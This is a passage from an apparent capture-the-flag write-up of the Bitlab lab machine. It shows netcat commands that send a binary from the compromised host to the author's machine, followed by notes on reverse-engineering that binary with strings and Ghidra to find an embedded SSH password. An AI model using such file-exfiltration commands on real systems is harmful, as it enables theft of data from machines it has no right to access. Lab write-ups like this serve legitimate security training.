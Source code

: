 ```
clave@bitlab:~$ ls
RemoteConnection.exe  user.txt
```

I downloaded this back to Kali via `nc`.&#x20;

```bash
# on kali
nc -l -p 4444 > RemoteConnection.exe
# on host
nc -w 3 10.10.14.13 4444 < RemoteConnection.exe
```

This is a Windows binary, so we can transfer it to my Windows VM to test with dnSpy and other debuggers. dnSpy was unable to retrieve anything from it, so let's check the assembly code for this using `ida64`. The main issue I had was that there were no function names and I had no clear understanding of what it was doing.&#x20;

I checked using `strings` and found some stuff:

```
parse
Access Denied !!
string too long
invalid string position
GetUserNameW
```

This seems to be parsing some kind of input, and denying access if it is wrong. This could be a password of some sorts. I spent some time looking at the functions from `ghidra`, and found this part here:

<figure><img src="../../../.gitbook/assets/image (150) (5).png" alt=""><figcaption></figcaption></figure>

It appears that this is executing `putty.exe`, which is an SSH client for Windows. That would explain the Access Denied string. This binary was trying to `ssh` somewhere, and there was probably a password being sent. I also found that despite ASLR being enabled, the last 4 characters of addresses are always the same.&#x20;

<figure><img src="../../../.gitbook/assets/image (122) (4).png" alt=""><figcaption></figcaption></figure>
